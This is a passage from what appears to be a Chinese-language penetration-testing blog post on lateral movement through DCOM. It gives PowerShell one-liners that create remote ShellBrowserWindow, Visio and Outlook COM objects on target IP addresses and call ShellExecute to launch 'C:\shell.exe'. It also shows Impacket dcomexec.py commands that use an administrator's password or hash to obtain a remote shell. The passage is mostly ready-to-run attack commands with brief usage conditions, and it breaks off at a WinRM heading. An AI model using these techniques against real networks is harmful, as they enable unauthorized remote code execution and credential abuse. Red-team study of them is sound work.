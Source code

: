 ```shell
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","127.0.0.1"))
$com.Documen.Application | Get-Member
```

![shellbrowsewindow-method](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/shellbrowsewindow-method.png)

调用方法为ShellExecute

```shell
#完整命令
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.30.10")).Document.Application.shellExecute("C:\shell.exe")
```

![shellbrowerwindows-exe](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/shellbrowerwindows-exe.png)

#### Visio.Application

使用条件：目标主机安装了Visio

```shell
[activator]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","192.168.30.10")).[0].Document.Application.shellExecute("C:\shell.exe")
```

#### Outlook.Application

使用条件：目标主机安装了Outlook

通过Outlook创建Shell.Application对象来实现命令行执行：

```shell
[activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","192.168.52.138")).createObject("Shell.Application").shellExecute("C:\shell.exe")
```

#### Impacket中的dcomexec.py脚本

```
python dcomexec.py domain/username:password@ip <command>
```

用于获取一个半交互式的shell

![dcomexec-py](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/dcomexec-py.png)

需要提供目标机器上为管理员用户的账号密码

支持使用hash来代替明文密码

```
python dcomexec.py domain/username:@ip -hashes 
```

## WinRM
